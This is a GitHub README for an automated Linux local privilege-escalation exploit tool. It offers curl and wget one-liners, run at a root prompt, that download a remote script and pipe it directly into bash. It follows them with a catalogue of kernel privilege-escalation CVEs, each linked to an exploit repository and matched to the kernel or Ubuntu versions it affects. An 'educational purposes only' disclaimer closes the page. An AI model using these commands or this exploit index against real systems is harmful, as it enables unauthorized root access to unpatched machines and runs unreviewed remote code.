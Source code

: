 
<div align="center"><h1>Auto Local Privilege Escalation Exploit</h1></h1></div>
<br>

<div align="center">
  
![licence](https://img.shields.io/badge/LICENE-GPL2.0-ebcb8b?style=flat-square)
![version](https://img.shields.io/badge/VERSION-1.0.2-a3be8c?style=flat-square)
  
 </div>
<br>

<div align="center"><h1>Requirements:</h1></div>

<samp>
  
* GIT
  
* WGET
  
* GCC
  
</samp>

<div align="center"><h1>Curl</h1></div>

```
root@127.0.0.1:~# bash -c "$(curl -fsSL https://raw.githubusercontent.com/vlain1337/auto-lpe/refs/heads/main/autolpe.sh -k)"	
```

<div align="center"><h1>Wget</h1></div>

```
root@127.0.0.1:~# bash -c "$(wget --no-verbose -O- https://raw.githubusercontent.com/vlain1337/auto-lpe/refs/heads/main/autolpe.sh)"
```

<div align="center"><h1>Read this</h1></div>

<samp>
<div align="center"><h1> TOP EXPLOIT</h1></div>

| CVE-ID                                      | LINK REFERENCE      |
| ------------------------------------------- | ------------------------------- |
| [CVE-2021-4034]       | https://github.com/ly4k/PwnKit  |
| [CVE-2022-2588]       | https://github.com/Markakd/CVE-2022-2588/ |
| [CVE-2021-3493]       | https://github.com/briskets/CVE-2021-3493                  |
| [CVE-2023-2640] | https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629                  |
| [CVE-2022-0847] | https://github.com/n3rada/DirtyPipe             |

<div align="center"><h1> EXPLOIT LIST</h1></div>

| CVE-ID                                                    | Possible affected versions                                                            |
| --------------------------------------------------------- | ------------------------------------------------------------------------------------- |
| [CVE-2022-34918](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2022/CVE-2022-34918)                   | Linux kernel < 5.18.11                                                                |
| [CVE-2022-32250](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2022/CVE-2022-32250)                   | Linux kernel < 5.18.1                                                                 |
| [CVE-2022-27666](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2022/CVE-2022-27666)                   | Linux kernel < 5.17-rc8                                                               |
| [CVE-2022-25636](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2022/CVE-2022-25636)                   | Linux kernel 5.4-5.6.10                                                               |
| [CVE-2022-23222](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2022/CVE-2022-23222)                   | Linux kernel 5.8-5.16                                                                 |
| [CVE-2022-2639](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2022/CVE-2022-2639)                     | Linux kernel 3.13-5.18                                                                |
| [CVE-2022-2602](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2022/CVE-2022-2602)                     | Linux kernel < 6.1-rc1                                                                |
| [CVE-2022-2588](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2022/CVE-2022-2588)                     | Linux kernel < 5.19                                                                   |
| [CVE-2022-2586](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2022/CVE-2022-2586)                     | Linux kernel > 3.16-rc1                                                               |
| [CVE-2022-2585](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2022/CVE-2022-2585)                     | Linux kernel > 5.7-rc1                                                                |
| [CVE-2022-1015](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2022/CVE-2022-1015)                     | Linux kernel 5.12-5.17                                                                |
| [CVE-2022-0995](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2022/CVE-2022-0995)                     | Linux kernel 5.8-5.17-rc7                                                             |
| [CVE-2022-0847 (DirtyPipe)](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2022/CVE-2022-0847)         | Linux kernel 5.8-5.16.11                                                              |
| [CVE-2022-0185](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2022/CVE-2022-0185)                     | Linux kernel 5.1-rc1-5.17-rc1                                                         |
| [CVE-2021-43267](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2021/CVE-2021-43267)                   | Linux kernel 5.10-rc1-5.15                                                            |
| [CVE-2021-42008](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2021/CVE-2021-42008)                   | Linux kernel < 5.13.13                                                                |
| [CVE-2021-41073](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2021/CVE-2021-41073)                   | Linux kernel 5.10-5.14.6                                                              |
| [CVE-2021-31440](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2021/CVE-2021-31440)                   | Linux kernel 5.7-5.11.15                                                              |
| [CVE-2021-27365](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2021/CVE-2021-27365)                   | Linux kernel <= 5.11.3                                                                |
| [CVE-2021-22555](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2021/CVE-2021-22555)                   | Linux kernel 2.6.19-5.12-rc6                                                          |
| [CVE-2021-4154](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2021/CVE-2021-4154)                     | Linux kernel < 5.3.18                                                                 |
| [CVE-2021-3493](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2021/CVE-2021-3493)                     | Ubuntu 20.10、Ubuntu 20.04 LTS、Ubuntu 18.04 LTS、Ubuntu 16.04 LTS、Ubuntu 14.04 ESM  |
| [CVE-2021-3490](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2021/CVE-2021-3490)                     | Linux kernel < 5.13-rc4                                                               |
| [CVE-2020-27194](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2020/CVE-2020-27194)                   | Linux kernel 5.7-5.8.14                                                               |
| [CVE-2020-8835](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2020/CVE-2020-8835)                     | Linux kernel 5.4.7-5.4.29, 5.5-5.5.14, 5.6                                            |
| [CVE-2019-15666](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2019/CVE-2019-15666)                   | Linux kernel < 5.0.19                                                                 |
| [CVE-2019-13272](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2019/CVE-2019-13272)                   | Linux kernel 4.10-5.1.17                                                              |
| [CVE-2018-18955](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2018/CVE-2018-18955)                   | Linux kernel 4.15-4.19.2                                                              |
| [CVE-2018-17182](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2018/CVE-2018-17182)                   | Linux kernel 3.5-4.18.8                                                               |
| [CVE-2018-5333](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2018/CVE-2018-5333)                     | Linux kernel 4.4-4.14.13                                                              |
| [CVE-2017-1000253](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2017/CVE-2017-1000253)               | Linux kernel 3.2-4.13                                                                 |
| [CVE-2017-16995](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2017/CVE-2017-16995)                   | Linux kernel 4.4-4.14.8                                                               |
| [CVE-2017-16939](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2017/CVE-2017-16939)                   | Linux kernel < 4.13.11                                                                |
| [CVE-2017-11176](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2017/CVE-2017-11176)                   | Linux kernel <= 4.11.9                                                                |
| [CVE-2017-8890](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2017/CVE-2017-8890)                     | Linux kernel 2.5.69-4.11                                                              |
| [CVE-2017-7308](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2017/CVE-2017-7308)                     | Linux kernel 3.2-4.10.6                                                               |
| [CVE-2017-6074](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2017/CVE-2017-6074)                     | Linux kernel 2.6.18-4.9.11                                                            |
| [CVE-2017-5123](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2017/CVE-2017-5123)                     | Linux kernel 4.12-4.13                                                                |
| [CVE-2016-9793](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2016/CVE-2016-9793)                     | Linux kernel 3.11-4.8.14                                                              |
| [CVE-2016-8655](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2016/CVE-2016-8655)                     | Linux kernel 4.4.0-4.9                                                                |
| [CVE-2016-5195 (DirtyCow)](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2016/CVE-2016-5195)          | Linux kernel 2.6.22-4.8.3                                                             |
| [CVE-2016-4997](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2016/CVE-2016-4997)                     | Linux kernel <= 4.6.3                                                                 |
| [CVE-2016-4557](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2016/CVE-2016-4557)                     | Linux kernel 4.4-4.5.5                                                                |
| [CVE-2016-2384](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2016/CVE-2016-2384)                     | Linux kernel 3.0.0-4.4.8                                                              |
| [CVE-2016-0728 (pp_key)](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2016/CVE-2016-0728)            | Linux kernel 3.8.0-3.8.9, 3.9-3.13, 3.4.0-3.13.0, 3.8.5-3.8.9, 3.10.6, 3.9.6, 3.13.1  |
| [CVE-2015-8660](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2015/CVE-2015-8660)                     | Linux kernel 3.0.0-4.3.3                                                              |
| [CVE-2015-8550](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2015/CVE-2015-8550)                     | Linux kernel 4.19.65                                                                  |
| [CVE-2015-1328 (ofs)](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2015/CVE-2015-1328)               | Linux kernel 3.13, 3.16.0, 3.19.0                                                     |
| [CVE-2014-9322](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2014/CVE-2014-9322)                     | Linux kernel 3.0.1-3.17.5                                                             |
| [CVE-2014-4699](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2014/CVE-2014-4699)                     | Linux kernel 3.0.1-3.15.4                                                             |
| [CVE-2014-4014](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2014/CVE-2014-4014)                     | Linux kernel 3.0.1-3.14.8                                                             |
| [CVE-2014-3153](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2014/CVE-2014-3153)                     | Linux kernel 3.3.2-3.3.5, 3.0.1-3.0.5, 2.6.32-2.6.39, 2.6.4-2.6.9,3.2.2, 3.0.18       |
| [CVE-2014-0196 (rawmodePTY)](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2014/CVE-2014-0196)        | Linux kernel 2.6.31-2.6.39, 3.14, 3.15                                                |
| [CVE-2014-0038 (timeoutpwn)](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2014/CVE-2014-0038)        | Linux kernel 3.4-3.13, 3.4.0-3.8.0, 3.8.5, 3.8.6, 3.8.9, 3.9.0, 3.9.6, 3.10.0-3.13.0  |
| [CVE-2013-2094 (perf_swevent)](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2013/CVE-2013-2094)      | Linux kernel 3.0.0-3.0.6, 3.1.0, 3.2, 3.3, 3.4.0-3.4.9, 3.5, 3.6, 3.7, 3.8.0-3.8.9    |
| [CVE-2013-1959](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2013/CVE-2013-1959)                     | Linux kernel 3.0.1-3.8.9                                                              |
| [CVE-2013-1858 (clown-newuser)](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2013/CVE-2013-1858)     | Linux kernel 3.8-3.8.3                                                                |
| [CVE-2013-1763](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2013/CVE-2013-1763)                     | Linux kernel 3.3-3.8                                                                  |
| [CVE-2013-0268 (msr)](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2013/CVE-2013-0268)               | Linux kernel 2.6.18-2.6.39, 3.0.0-3.0.6, 3.1.0, 3.2, 3.3, 3.4, 3.5, 3.6, 3.7.0, 3.7.6 |
| [CVE-2012-0056 (memodipper)](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2012/CVE-2012-0056)        | Linux kernel 2.6.39, 3.0.0, 3.0.1, 3.0.2, 3.0.3, 3.0.4, 3.0.5, 3.0.6, 3.1.0           |
| [CVE-2010-4347](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2010/CVE-2010-4347)                     | Linux kernel 2.6.0-2.6.36                                                             |
| [CVE-2010-4258 (full-nelson)](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2010/CVE-2010-4258)       | Linux kernel 2.6.31-2.6.37                                                            |
| [CVE-2010-4073 (half_nelson)](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2010/CVE-2010-4073)       | Linux kernel 2.6.0-2.6.36                                                             |
| [CVE-2010-3904 (rds)](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2010/CVE-2010-3904)               | Linux kernel 2.6.30-2.6.36                                                            |
| [CVE-2010-3301 (ptrace_kmod2)](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2010/CVE-2010-3301)      | Linux kernel 2.6.26-2.6.34                                                            |
| [CVE-2010-3081 (video4linux)](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2010/CVE-2010-3081)       | Linux kernel 2.6.0-2.6.33                                                             |
| [CVE-2010-2959 (can_bcm)](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2010/CVE-2010-2959)           | Linux kernel 2.6.18-2.6.36                                                            |
| [CVE-2010-1146 (reiserfs)](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2010/CVE-2010-1146)          | Linux kernel 2.6.18-2.6.34                                                            |
| [CVE-2009-3547 (pipe.c_32bit)](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2009/CVE-2009-3547)      | Linux kernel 2.4.4-2.4.37, 2.6.15-2.6.31                                              |
| [CVE-2009-2698 (udp_sendmsg_32bit)](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2009/CVE-2009-2698) | Linux kernel 2.6.1-2.6.19                                                             |
| [CVE-2009-2692 (sock_sendpage)](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2009/CVE-2009-2692)     | Linux kernel 2.4.4-2.4.37，2.6.0-2.6.30                                               |
| [CVE-2009-1337 (exit_notify)](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2009/CVE-2009-1337)       | Linux kernel 2.6.25-2.6.29                                                            |
| [CVE-2009-1185 (udev) ](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2009/CVE-2009-1185)             | Linux kernel 2.6.25-2.6.29                                                            |
| [CVE-2008-4210 (ftrex)](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2008/CVE-2008-4210)             | Linux kernel 2.6.11-2.6.22                                                            |
| [CVE-2008-0900](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2008/CVE-2008-0900)                     | Linux kernel 2.6.17-2.6.24.1                                                          |
| [CVE-2008-0600](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2008/CVE-2008-0600)                     | Linux kernel 2.6.23, 2.6.24                                                           |
| [CVE-2006-3626 (h00lyshit)](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2006/CVE-2006-3626)         | Linux kernel 2.6.8, 2.6.10, 2.6.11, 2.6.12, 2.6.13, 2.6.14, 2.6.15, 2.6.16            |
| [CVE-2006-2451 (raptor_prctl)](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2006/CVE-2006-2451)      | Linux kernel 2.6.13-2.6.17                                                            |
| [CVE-2005-1263](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2005/CVE-2005-1263)                     | Linux kernel 2.x.x-2.2.27-rc2, 2.4.x-2.4.31-pre1, 2.6.x-2.6.12-rc4                    |
| [CVE-2005-0736 (krad3)](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2005/CVE-2005-0736)             | Linux kernel 2.6.5, 2.6.7, 2.6.8, 2.6.9, 2.6.10, 2.6.11                               |
| [CVE-2004-1235 (elflbl)](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2004/CVE-2004-1235)            | Linux kernel 2.4.29                                                                   |
| [CVE-2004-0077 (mremap_pte) ](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2004/CVE-2004-0077)       | Linux kernel 2.4.20, 2.2.24, 2.4.25, 2.4.26, 2.4.27                                   |
| [CVE-N/A (caps_to_root)](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2004/caps_to_root)             | Linux kernel 2.6.34, 2.6.35, 2.6.36                                                   |

</samp>

## Disclaimer

This repository is for educationnal purposes only.
Malicious usage of this repository are not the author responsibility.
